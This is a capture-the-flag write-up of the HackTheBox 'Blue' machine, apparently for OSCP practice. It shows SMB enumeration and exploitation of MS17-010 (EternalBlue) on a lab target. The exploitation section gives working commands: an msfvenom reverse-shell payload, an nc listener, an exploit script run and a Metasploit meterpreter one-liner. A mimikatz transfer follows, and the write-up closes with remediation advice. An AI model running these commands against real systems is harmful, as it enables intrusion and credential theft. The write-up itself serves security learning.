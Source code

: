 ```yaml
---
title: Blue Writeup
date: 2021-12-29
categories: [Writeup, HackTheBox]
tags: hackthebox, OSCP, WriteUp, Windows, Windows7, eternalblue, MS17-010, TJNULLs List
image:
  src: /assets/Images-02-Blue/Blue-infocard.png
  width: 697   # in pixels
  height: 517   # in pixels
  alt: image alternative text
---
```


### Enumeration
#### rustscan
```bash
rustscan --accessible -a 10.129.179.6 -- -Pn -p-
```
![](/assets/Images-02-Blue/2021-12-29-20-24-16.png)
_rustscan results_

#### nmap
```bash
nmap -T4 -Pn -A -p 135,139,445,49152,49153,49154,49155,49156,49157 10.129.179.6
```
![](/assets/Images-02-Blue/2021-12-29-20-30-32.png)
_nmap results_

```bash
nmap -Pn -A --script=smb-vuln* -p 139,445 10.129.179.6 | tee nmap-vulns.log
```
![](/assets/Images-02-Blue/2021-12-29-20-40-51.png)
_nmap vulnerablity scan results_

Target running 
- OS : Windows 7 Professional 7601 Service Pack 1
- SMB Service with disabled message signing.

This can lead to exploitation using eternal blue exploit on outdated OS with vulnerable state of service.

nmap vulnerablity script scan gave confirmation target is vulnerable to 
- CVE-2017-0143 : Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)

#### smbclient
```bash
smbclient -q -NL 10.129.179.6 # Shares List

smbclient -N \\\\10.129.179.6\\Users # readable
```
- `smbclient` gave a list of shares. Only share `Users` is readable. None of them are writeable.
- Admin shares are not accessible.
![](/assets/Images-02-Blue/2021-12-29-20-50-01.png)
_smbclient enumeration_

---

### Exploitation
#### MS17-010
For exploiting the target using MS17-010 we can use the following exploit from github. [MS17-010](https://github.com/helviojunior/MS17-010)

```bash
git clone https://github.com/helviojunior/MS17-010.git
cd MS17-010/
python checker.py 10.129.179.6
```

> From this repository `checker.py` script uses null authentication to check vulnerability. Directly running it will fail the check in this case. 'guest' authentication is used in nmap / smbclient and shares were accessible.

After changing username on line 14 of `checker.py` it will give named pipes and confirm target is vulnerable to eternalblue.

![](/assets/Images-02-Blue/2021-12-29-21-41-46.png)
_checker.py update and check_

Update username on line 37 of `send_and_execute.py` so exploit can work.

This exploit requires malicious executable to get a reverse shell. We will create it using following commands in the same location of exploit.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe > eternalblue.exe
```
![](/assets/Images-02-Blue/2021-12-29-22-06-46.png)
_updating send-and-execute.py and msfvenom_

And run the exploit after setting up ncat listener.

```bash
rlwrap nc -lvnp 1337

# python send_and_execute.py TARGET_IP eternalblue.exe
python send_and_execute.py 10.129.179.6 eternalblue.exe
```
**And finally we get a shell with highest privileges.**
![](/assets/Images-02-Blue/2021-12-29-22-14-52.png)
_system shell_

---

#### Metasploit | MS17-010

With below one liner we can exploit target with Metasploit MS17-010 module and get meterpreter shell.
```bash
msfconsole -q -x "use exploit/windows/smb/ms17_010_psexec; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 4444; set RHOSTS 10.129.179.6; run;"
```
![](/assets/Images-02-Blue/2021-12-29-23-06-14.png)
_meterpreter shell_

---

### Post Exploitation
This system was compromised with highest privilege.
Transferred and executed `mimikatz`.
No hashes were saved in system.

![](/assets/Images-02-Blue/2021-12-29-22-58-41.png)
_hashdump attempt / mimikatz_

---

### Recommendation

SMB was enabled on outdated un-supported Windows 7 and SMB message signing was disabled. 

> Update to latest supported version of Windows. 
> Advise not to run SMB service with disabled message signing as Administrator.

---

### Key Learning
In this pentest, with easiest enumeration we got to know target is vulnerable to eternal blue. And there are a lot of exploits available for this on github and other resources.

SMB service was using `guest` authentication. 
We modified vulnerability scanner and exploit with `guest` as credentials to work.

---